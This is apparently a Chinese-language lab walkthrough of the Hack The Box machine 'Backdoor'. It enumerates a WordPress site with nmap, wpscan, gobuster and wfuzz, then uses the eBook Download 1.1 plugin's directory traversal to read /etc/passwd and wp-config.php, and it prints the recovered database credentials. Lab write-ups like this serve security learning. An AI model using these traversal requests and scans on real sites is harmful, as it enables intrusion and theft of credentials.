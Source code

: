 nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201291304431.png)

把`10.10.11.125    backdoor.htb `加到`/etc/hosts`中

---

`WordPress 5.8.1`用`wpscan`去扫描,可知`http://10.10.11.125/wp-content/uploads/`可以列出文件

用gobuster去爆破路径

`./gobuster dir -w /home/kali/SecTools/SecLists-2021.4/Discovery/Web-Content/directory-list-2.3-small.txt -u http://backdoor.htb/ -t 100`

```
/wp-content           (Status: 301) [Size: 317] [--> http://backdoor.htb/wp-content/]
/wp-includes          (Status: 301) [Size: 318] [--> http://backdoor.htb/wp-includes/]
/wp-admin             (Status: 301) [Size: 315] [--> http://backdoor.htb/wp-admin/] 
```

`./gobuster dir -w /home/kali/SecTools/SecLists-2021.4/Discovery/Web-Content/directory-list-2.3-small.txt -u http://backdoor.htb/wp-content/ -t 100`

```
/themes               (Status: 301) [Size: 324] [--> http://backdoor.htb/wp-content/themes/]
/uploads              (Status: 301) [Size: 325] [--> http://backdoor.htb/wp-content/uploads/]
/plugins              (Status: 301) [Size: 325] [--> http://backdoor.htb/wp-content/plugins/]
/upgrade              (Status: 301) [Size: 325] [--> http://backdoor.htb/wp-content/upgrade/]
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201291331900.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201291337365.png)

`/wp-content/plugins/ebook-download/filedownload.php`可能存在文件下载

但是`wfuzz`没有fuzz出来...

`wfuzz -c -w ~/SecTools/SecLists-2021.4/Discovery/Web-Content/burp-parameter-names.txt -u "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?FUZZ=../../../../../../../../etc/passwd"`

从[http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt](http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt)得知该版本为`1.1`

有个任意文件下载漏洞[WordPress Plugin eBook Download 1.1 - Directory Traversal ](https://www.exploit-db.com/exploits/39575)

参数是`ebookdownloadurl`,字典里面没有这个...

`http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=`

`wp-config.php`

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
```